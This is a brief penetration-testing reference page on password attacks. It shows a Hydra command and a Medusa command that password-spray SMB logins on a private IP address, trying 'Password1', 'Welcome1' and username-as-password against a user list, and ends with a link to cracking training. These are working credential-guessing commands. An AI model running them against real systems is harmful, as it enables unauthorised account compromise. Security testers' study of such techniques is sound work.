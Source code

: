 # Password attacks

### Hydra

The below command will perform a password attack using a total of 2 attempts per username in the last.\
\
1\. -p \<password> = password\
2\. -e s = try the username as the password

```
hydra -L Common\ users\ list.txt -p Password1 -e s -V 192.168.95.11 smb
```

### Medusa

The below command will perform 1 password attack against each username in the list.

1. \-p \<password> = password

```
medusa -h 192.168.95.11 -U Common\ users\ list.txt -p Welcome1 -M smbnt -m GROUP:DOMAIN
```

## Password cracking training

{% embed url="https://in.security/technical-training/password-cracking/" %}
